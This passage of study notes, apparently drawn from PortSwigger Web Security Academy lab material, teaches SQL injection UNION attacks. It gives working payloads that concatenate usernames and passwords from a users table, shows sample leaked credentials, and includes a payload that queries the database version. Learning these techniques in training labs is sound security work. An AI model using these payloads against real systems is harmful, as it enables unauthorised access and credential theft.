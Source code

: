 [Lab: SQL injection UNION attack, retrieving data from other tables  Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

.

.

**Retrieving multiple values within a single column**

You can easily retrieve **multiple values together** within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. 

For example, on Oracle you could submit the input: `' UNION SELECT username || '~' || password FROM users--`

The results from the query will let you read all of the usernames and passwords, for example:

```sql
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

[Lab: SQL injection UNION attack, retrieving multiple values in a single column  Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

---

# `Examining the database in SQL injection attacks`

When exploiting SQL injection vulnerabilities, it is often necessary to **gather some information about the database itself.**

### **Querying the database type and version**

For example, you could use a `UNION` attack with the following input:

```sql
' UNION SELECT @@version--
```

This might return output like the following, confirming that the database is **Microsoft SQL Server**, and the **version** that is being used:

Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)

[Lab: SQL injection attack, querying the database type and version on Oracle  Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

[Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft  Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
